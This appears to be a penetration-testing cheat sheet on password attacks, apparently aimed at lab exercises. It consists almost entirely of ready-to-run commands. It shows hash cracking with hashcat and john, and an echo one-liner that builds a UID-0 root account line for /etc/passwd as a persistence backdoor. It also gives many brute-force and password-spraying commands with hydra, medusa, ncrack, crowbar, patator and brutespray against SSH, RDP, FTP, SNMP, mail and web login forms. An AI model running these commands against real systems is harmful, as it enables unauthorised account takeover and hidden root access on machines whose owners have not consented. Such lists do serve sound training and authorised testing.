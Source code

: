 ## Hashcat

```bash
# cracking sha512 hash with salt.
# create a hash.txt file and enter the sha512hash and salt using the format below:
<sha512_hash>:<salt>

# crack using hashcat.
hashcat -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

### /etcAdd root user to /etc/passwd file

{% code overflow="wrap" %}
```bash
# add a new user (dking) with password (password123)
echo "dking:$(openssl passwd -6 -salt dking password123):0:0:dking:/root:/bin/bash"
```
{% endcode %}

## Bruteforce

```bash
cewl
hash-identifier
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
medusa -h 10.11.1.111 -u admin -P password-file.txt -M http -m DIR:/admin -T 10
ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.111
crowbar -b rdp -s 10.11.1.111/32 -u victim -C /root/words.txt -n 1
patator http_fuzz url=https://10.10.10.10:3001/login method=POST accept_cookie=1 body='{"user":"admin","password":"FILE0","email":""}' 0=/root/acronim_dict.txt follow=1 -x ignore:fgrep='HTTP/2 422'
hydra -l root -P password-file.txt 10.11.1.111 ssh
hydra -P password-file.txt -v 10.11.1.111 snmp
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 ftp -V
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 pop3 -V
hydra -P /usr/share/wordlistsnmap.lst 10.11.1.111 smtp -V
hydra -L username.txt -p paswordl33t -t 4 ssh://10.10.1.111
hydra -L user.txt -P pass.txt 10.10.1.111 ftp

# PATATOR
patator http_fuzz url=https://10.10.10.10:3001/login method=POST accept_cookie=1 body='{"user":"admin","password":"FILE0","email":""}' 0=/root/acronim_dict.txt follow=1 -x ignore:fgrep='HTTP/2 422'

# SIMPLE LOGIN GET
hydra -L cewl_fin_50.txt -P cewl_fin_50.txt 10.11.1.111 http-get-form "/~login:username=^USER^&password=^PASS^&Login=Login:Unauthorized" -V

# GET FORM with HTTPS
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.111 -s 443 -S https-get-form "/index.php:login=^USER^&password=^PASS^:Incorrect login/password\!"

# SIMPLE LOGIN POST
hydra -l root@localhost -P cewl 10.11.1.111 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-120&User=^USER^&Password=^PASS^:F=Login failed" -I

# API REST LOGIN POST
hydra -l admin -P /usr/share/wordlists/wfuzz/others/common_pass.txt -V -s 80 10.11.1.111 http-post-form "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials" -t 64

# Password spraying bruteforcer
# https://github.com/x90skysn3k/brutespray
python brutespray.py --file nmap.gnmap -U /usr/share/wordlist/user.txt -P /usr/share/wordlist/pass.txt --threads 5 --hosts 5
```